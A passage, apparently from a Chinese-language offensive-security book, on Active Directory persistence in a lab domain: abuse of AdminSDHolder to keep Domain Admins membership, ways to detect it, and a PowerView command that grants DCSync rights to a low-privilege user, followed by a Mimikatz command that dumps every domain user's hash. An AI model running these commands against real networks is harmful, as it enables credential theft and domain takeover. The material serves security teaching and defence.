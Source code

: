 ![图 7.13 – jaime.lannister 用户账户被添加到 Domain Admins 组](img/B18964_07_13.jpg)

图 7.13 – jaime.lannister 用户账户被添加到 Domain Admins 组

有两种方法可以检测这种技术。我们可以定期查看 AdminSDHolder 对象的 ACL，以确保没有任何更改，并且可以监控 `adminCount** = **1` 的用户和组。现在，我们将讨论如何向域对象本身添加权限。

### 域

通过域管理员权限，我们可以为任何受我们控制的用户授予 `DCSync` 权限。结果，低权限用户将能够提取域中所有用户的哈希值。添加 DCSync 权限的 PowerView 命令如下所示：

```
Add-DomainObjectACL -PrincipalIdentity renly.baratheon -TargetIdentity "dc=sevenkingdoms,dc=local" -Rights DCSync -Verbose
```

然后，我们返回到低权限用户并运行以下 Mimikatz 命令：

```
mimikatz.exe "lsadump::dcsync /all /csv"
```

成功的 DCSync 攻击结果如图所示：
